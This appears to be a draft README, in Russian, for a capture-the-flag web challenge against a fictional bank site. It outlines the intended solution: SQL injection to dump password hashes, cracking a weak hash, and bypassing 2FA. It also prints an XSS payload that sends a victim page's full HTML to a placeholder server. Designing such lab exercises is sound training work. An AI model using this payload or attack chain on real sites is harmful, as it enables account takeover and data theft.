 # web-ebanking


## Условие
Перед вами сайт ЛКЛ-Банка. Над ним работали лучшие программисты и специалисты
по безопасности, так что, вне всякого сомнения, он сделан надёжно и безопасно.

Или нет?

https://здесь.будет.сайт


## Решение
**Шаг 0. Получение исходников**. Изначально этого шага не предполагалось, но мне кажется, что без
исходников таск станет совсем невозможным. Будут легко находиться DirBuster'ом

**Шаг 1. SQL-инъекция**. В форме получения сведений о пользователе будет SQL-инъекция. Через неё
можно будет получить хэш пароля любого пользователя. У одного из юзеров этот хэш будет очень легко ломаться
(что-то из Rockyou), в итоге получаем доступ к его аккаунту

**Шаг 2. XSS**. У юзера будет возможность забить что-то в поиск. Сам поиск немного не работает, всегда
возвращая "Ничего не найдено", но будет возможность скормить каким-то образом поисковый запрос боту с
селениумом. Какой-нибудь XSS — и получаем пароль от аккаунта второго юзера. Заходим — а там светится
пароль админа

Строка для вставки в поисковый запрос (разбита на несколько строк для удобства):
```
<script>setTimeout(function(){let x=new XMLHttpRequest();x.open('GET',
`https://<some_local_http_server>/${encodeURIComponent(document.documentElement.innerHTML)}`,
true);x.send();}, 1000)</script>
```

**Шаг 3. Взлом 2FA**. У админа будет настроен 2FA, так что просто пароля не хватит. Но либо там будет светиться
QR-код с секретным ключом для генерации OTP, либо не будет защиты от брутфорса (скорее, первое, но пока не
решил). Ломаем, и видим флаг в личном кабинете админа


## TODO
- Сделать сам таск
- Написать более подробное решение

